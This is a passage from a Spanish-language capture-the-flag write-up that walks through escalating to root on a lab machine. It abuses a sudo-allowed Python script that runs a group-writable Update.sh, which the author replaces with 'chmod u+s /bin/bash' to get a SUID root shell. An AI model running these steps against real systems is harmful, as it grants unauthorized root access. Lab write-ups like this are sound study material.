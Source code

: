 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for dark on 994316e6d77d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on 994316e6d77d:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

Por lo que podremos ejecutar ese script como `root`, si vemos el codigo por dentro, veremos lo siguiente:

```python
#!/bin/python3

import subprocess

# Ruta al archivo Update.sh
script_path = '/usr/local/bin/Update.sh'

# Ejecutar el script de Bash
try:
    subprocess.run(['bash', script_path], check=True)
    print("Script ejecutado con éxito.")
except subprocess.CalledProcessError as e:
    print(f"Hubo un error al ejecutar el script: {e}")
```

Si vemos los permisos de la carpeta donde esta contenida, veremos que somos del grupo de la carpeta y podremos eliminar el archivo `Update.sh` y crearlo nosotros para escalara a `root`.

```
drwxrwx--- 1 root dark 4096 Dec 14 12:22 bin
```

Y dentro de la carpeta como dije esta:

```
-rwxrwx--- 1 root root   21 Dec 14 12:22 Update.sh
```

Por lo que haremos lo siguiente:

```shell
rm Update.sh
```

Info:

```
rm: remove write-protected regular file 'Update.sh'? y
```

Con esto ya habremos eliminado el archivo y ahora crearemos el mismo archivo pero con lo siguiente:

```shell
nano Update.sh

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```
